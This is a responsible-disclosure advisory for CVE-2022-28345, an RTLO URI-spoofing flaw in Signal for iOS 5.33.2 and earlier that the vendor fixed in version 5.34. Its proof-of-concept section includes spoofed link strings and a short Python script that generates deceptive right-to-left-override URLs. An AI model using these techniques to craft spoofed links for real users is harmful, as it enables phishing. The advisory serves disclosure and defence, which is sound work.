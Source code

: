 ### Title
CVE-2022-28345 - Signal client for iOS version 5.33.2 and below are vulnerable to RTLO Injection URI Spoofing using malicious URLs such as gepj.net/selif#/moc.elpmaxe which would appear as example.com/#files/ten.jpeg

### CVE ID
CVE-2022-28345

### CVSS Score
7.5

CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:N/I:H/A:N

### Internal IDs
SICK-2022-42

### Vendor
Signal

### Product
Signal iOS Client

### Product Versions
5.33.2 and below

### Vulnerability Details

An additional RTLO Injection URI Spoofing in the Signal client for iOS version 5.33.2 and below incorrectly renders RTLO encoded URLs beginning with a non-breaking space, and a hash character in the URL. This technique allowing a remote unauthenticated attacker to send 100% authentic looking links, appearing as any website URL by abusing the non-http & non-https automatic rendering of URLs on the iOS client application for top level domains. An attacker can spoof, for example, example.com, and masquerade any URL with a malicious destination. An attacker only requires a subdomain such as: gepj, txt, fdp, or xcod, which would appear as jpeg, txt, pdf, and docx respectively. This only affects iOS but can be sent via any other client.

### Vendor Response
Fixed in Signal iOS client 5.34 released around April 7-8th 2022 depending on your App Store.

Patch: [https://github.com/signalapp/Signal-iOS/commit/b0721e601e549996154127225c68769dfbfae506](https://github.com/signalapp/Signal-iOS/commit/b0721e601e549996154127225c68769dfbfae506)


### Proof of Concept

Send a message to someone, using natural looking domains, such as apple.com, imgur.com, dhl.com, etc.

`gepj.net/selif#/moc.rugmi`

Will appear as

`imgur.com/#files/ten.jpeg`

The use of the `#` character, and removal of `http`/`https` causes the Signal client to hyperlink the entire URL and bypasses previous related CVE's.

```python
#!/usr/bin/env python
# Modified:     sickcodes
# Authors:      zadewg
# Repo:         https://github.com/zadewg/RIUS
# Contact:      https://github.com/zadewg/RIUS, https://github.com/sickcodes
# Copyright:    zadewg (C) 2019, sickcodes (C) 2021
# Modified:     https://github.com/zadewg/RIUS
# License:      MIT

import sys

_LEGWEB = 'imgur.com'

_ATTWEB = 'gepj.net'

_SUBDIR = 'images'

_RTLO = (u'\u202e')

_LEGWEB = _LEGWEB[::-1]
_SUBDIR = _SUBDIR[::-1]

print(_LEGWEB+'/'+_SUBDIR)

_ATTFULL = _LEGWEB+'/'+_SUBDIR

print(_ATTFULL)

sys.stdout.write(' ' + _RTLO + (_ATTWEB + '/' + _SUBDIR + '#/' + _LEGWEB) +'\n')

```

This is due to the following RTLO character, and the abuse of trusted TLD domains:

`<0x202e>gepj.net/segami#/moc.rugmi`



#### Disclosure Timeline
* **2019-03-24** - Original research uncovered in related apps
* **2022-03-24** - Researchers meet each other
* **2022-03-24** - Additional bypass discovered
* **2022-03-24** - Signal notified
* **2022-04-02** - CVE Requested
* **2022-04-02** - CVE Assigned CVE-2022-28345
* **2022-04-04** - Vendor advised of CVE & sent the bypass PoC
* **2022-04-06** - Researcher confirms fix in 5.34
* **2022-04-07** - App Stores publish 5.34
* **2022-04-14** - Researcher publishes CVE, PoC, Video

### Links

[https://sick.codes/sick-2022-42](https://sick.codes/sick-2022-42)

[https://github.com/sickcodes/security/blob/master/advisories/SICK-2022-42.md](https://github.com/sickcodes/security/blob/master/advisories/SICK-2022-42.md)

[https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-28345](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-28345)

[https://nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-28345](https://nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-28345)

[https://github.com/zadewg/RIUS](https://github.com/zadewg/RIUS)

[https://blog.malwarebytes.com/social-engineering/2022/03/uri-spoofing-flaw-could-phish-whatsapp-signal-instagram-and-imessage-users/](https://blog.malwarebytes.com/social-engineering/2022/03/uri-spoofing-flaw-could-phish-whatsapp-signal-instagram-and-imessage-users/)

### Researchers

zadewg: [https://github.com/zadewg](https://github.com/zadewg)

Sick Codes: [https://github.com/sickcodes](https://github.com/sickcodes) || [https://twitter.com/sickcodes](https://twitter.com/sickcodes)